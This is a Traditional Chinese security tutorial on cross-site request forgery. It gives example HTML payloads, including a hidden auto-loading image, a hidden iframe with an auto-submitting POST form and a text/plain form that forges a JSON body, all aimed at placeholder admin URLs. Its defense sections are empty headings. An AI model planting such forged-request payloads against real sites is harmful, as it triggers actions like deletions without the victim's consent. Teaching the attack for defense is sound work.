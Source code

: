 # CSRF 跨站偽造請求

CSRF (Cross-site request forgery) 跨站偽造請求，**駭客** 利用使用者在 **A 網** 已驗証的身份，在使用者進入 **第三網 (駭客架設)** 時，發起對 **A 網** 隱藏式的請求指令 **達成指定目的**，而非透過 **使用者** 的意願。
![creativegroundtech](/security/img/cross-site-request-forgery.webp)

> 圖片出處：creativegroundtech

1. 登入 **銀行網**
2. (成功) 取得使用者認證資料
3. 駭客發送 `釣魚網站` 或 `惡意連結` 給使用者
4. 使用者到 **駭客網站** 不知情下，送出了到 **銀行網** 的指令請求
5. 銀行依 2 取得的身份驗証，成功執行請求。

:::tip 瀏覽器機制
當發出 **請求** 給某個網域，其網域關聯的 `cookie` 也會一起被帶上 **請求** 之中，所以駭客就是利用 `cookie`中已驗證的身份，發動攻擊。
:::

## 攻擊方式

### GET

假設後台的 **刪除** 功能，可以直接以 `/delete?id=3` 來刪除 `id=3`的項目。理論上，使用者必須先驗證過個人資料，且在後台操作才會執行 **刪除**。

```html
<a href="/delete?id=3"> 刪除 </a>
```

<table>
  <tr>
    <td>標題</td>
    <td>更新時間</td>
    <td>操作</td>
  </tr>
  <tr>
    <td>這是資料</td>
    <td>2021-12-15</td>
    <td><button>刪除</button></td>
  </tr>
</table>

#### 駭客行為

在使用者已登入過後台的情況下，對你發送 **釣魚網站** 、 **惡意連結**，在惡意網站內或連結中，寫入下面內容 (假設 後台 網址：`https://www.admin.com`)：

- **被動**

  進入網站後 「點擊」 執行 **請求**

  ```html
  <a href="https://www.admin.com/delete?id=3">開始測驗</a>
  ```

  <a>開始測驗</a>

  當你點下時，就是到了 `https://www.admin.com` 且送出了 **DELETE** 指令，刪除了某個東西。

- **主動**

  進入網站時，就 **自動送出請求**

  ```html
  <img src="https://www.admin.com/delete?id=3" width="0" height="0" />
  <a href="/test">開始測驗</a>
  ```

  將 `<img>` 設為 **隱藏**，當網站進入後，就會請求 `url`，在不知情下就被攻擊了。

### POST

如果**刪除功能** 是 ` POST`，駭客也可以使用 `<form>` 來主動提交表單，這是藉由 `<iframe>` 來隱藏 `<form>` 的表單顯示。[stackoverflow](https://stackoverflow.com/questions/17940811/example-of-silently-submitting-a-post-form-csrf)

```html {1,3,4,8,13}
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="https://www.admin.com/delete"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="id" value="3" />
  <input type="submit" value="submit" />
</form>

<script>
  document.getElementById('csrf-form').submit()
</script>
```

> 當進入網站，就送出表單。

### JSON 傳送

常見與後端溝通的 `json` ，也是有機會被攻擊，主要是透過 **字元** 組合達到指定的 `json` 樣式。

```html {4}
<form
  action="https://small-min.blog.com/delete"
  method="post"
  enctype="text/plain"
>
  <input name='{"id":3, "ignore_me":"' value='test"}' type="hidden" />
  <input type="submit" value="delete!" />
</form>
```

會產生這樣的 **請求** body

```js
{
  "id": 3,
  "ignore_me": "=test"
}
```

## 防禦方式

### 前端

### 後端

### 瀏覽器

## Reference

- [讓我們來談談 CSRF](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)
- [全端勇士之路 Node.js 基礎學習-CSRF 篇](https://hsiangfeng.github.io/nodejs/20190704/2336420619/)
- [imperva - Cross site request forgery (CSRF) attack](https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/)
